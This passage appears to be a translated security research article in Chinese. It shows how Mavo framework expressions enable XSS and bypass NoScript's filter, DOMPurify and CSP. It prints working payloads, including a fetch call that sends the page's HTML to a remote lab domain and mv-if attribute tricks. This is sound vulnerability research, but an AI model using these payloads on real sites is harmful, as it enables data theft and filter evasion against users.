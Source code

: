 ```
[self.alert(1)]
```

我们甚至可以通过使用间接调用达到不使用window对象也可以调用alert函数的目的，代码如下所示：

```
[(1，alert)(1)]
```

Mavo还支持一些有趣的自定义HTML属性，mv-expression允许我们可以定义用作表达式分隔符的字符。例如，如果要我们想实现类似Angular的双卷曲语法的功能，可以使用mv-expressions属性来实现，代码如下所示： 

```
&lt;div mv-expressions =“`{``{``}``}`”&gt; `{``{`top.alert(1)`}``}` &lt;/div&gt;
```

此外，Mavo还支持“property”属性，该属性可以将一个DOM元素的值链接到一个JavaScript变量。 Mavo网站上有关于该属性使用方法的一个例子，代码如下所示： 

```
&lt;p&gt;Slider value: [strength]/100&lt;/p&gt;
&lt;input type="range" property="strength" title="[strength]%" /&gt;
```

Mavo框架中还有两个有趣的功能，那就是mv-value和mv-if，这两个功能允许我们执行没有[]分隔符的表达式。如果表达式计算为false，mv-if则隐藏DOM元素，并且mv-value计算表达式并更改DOM元素的值。值得注意的是，这些属性将适用于HTML文档中的任何标签，示例代码如下所示： 

```
&lt;div mv-if=”false”&gt;Hide me&lt;/div&gt;
```

通过我的研究，发现了MavoScript表达式中有一些有趣的用法。

（1）只要表达式由字母，数字和下划线组成，我们就可以使用无符号字符串；

（2）对象属性将被转换为空字符串（如果它们不存在）。例如，即使没有这些属性存在，也可以使用x.y.z。 

基于上述的那些发现，我开始着手我的测试，看看我是否可以绕过NoScript的XSS过滤器（DOMPurify和CSP）。由于我们可以使用Mavo的data- *属性，因此绕过DOMPurify过滤器是很容易的。通常在Mavo中，我们一般都使用mv-前缀，但是Mavo还支持data-mv- *前缀使得文档能够通过HTML验证。 为了使Mavo与CSP一起使用，我们必须启用'unsafe-eval'参数。 这是一个存在漏洞的设计，因为一旦“unsafe-eval”参数被启用，我们就可以在JavaScript中调用各种eval函数。在实际的绕过试验中，第一次尝试绕过是使用JavaScript中的“fetch”函数证明了可以绕过NoScript过滤器，并且能够获取和发送HTML到远程目标机器中，示例代码如下所示： 

```
[1 and self.fetch('//subdomain2.portswigger-labs.net/'&amp;encodeURIComponent(document.body.innerHTML))]
```

因为NoScript的过滤器不能解析“and”关键字和方括号表达式语法，因此我可以使用它们来绕过检测并使用fetch发送HTML文档。 Mavo还将“＆”定义为一个concat运算符，因此在我的POC中使用该“&amp;”来连接字符串，感兴趣的读者可以点击查看相关的POC攻击向量 。 

Giorgio（NoScript的作者）修改了NoScript的XSS检测机制，以检查这些新关键字和方括号语法，但是我通过滥用MavoScript解析器再次绕过了NoScript的检测机制，示例代码如下所示： 

```
[''=''or self.alert(lol)]
```

在上面的代码中，MavoScript解析器把“=”解析为“相等”测试，而不是赋值。 我用这个方法逃避了NoScript的检测机制。 MavoScript将“或”定义为一个运算符，由于该运算符没有在JavaScript中定义，因此NoScript不会对它进行检测。如前所述，Mavo还允许我们在mv-if属性中执行没有分隔符的表达式，因此我可以使用下面这段代码来绕过NoScript的新检测机制。 

```
&lt;a data-mv-if='1 or self.alert(1)'&gt;test&lt;/a&gt;
```
